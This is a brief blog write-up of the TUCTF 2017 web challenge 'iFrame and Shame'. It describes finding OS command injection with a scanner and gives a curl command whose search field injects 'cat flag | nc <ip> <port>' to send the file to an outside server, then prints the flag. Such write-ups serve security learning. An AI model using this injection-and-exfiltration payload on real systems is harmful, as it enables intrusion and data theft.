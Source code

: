 ```yaml
---
layout: post
title: "Solution to TUCTF 2017 iFrame and Shame"
author: capitol
category: ctf
---
```

![arachnid](/images/arachnid.jpg)

##### name:
iFrame and Shame

##### category:
web

##### points:
300

#### Writeup

We where tired and just pointed [arachni](http://www.arachni-scanner.com/) at the page and it reported that there was os command injection in the form.

Once we knew that it was just a question of getting the flag, there was some sort of limit on number of rows returned, so we just piped the flag to our server with nc.

```bash
curl 'http://iframeshame.tuctf.com/' --data 'search=" ; cat flag | nc <ip> <port> ; "&Submit=Submit+Query'
```

flag was TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}

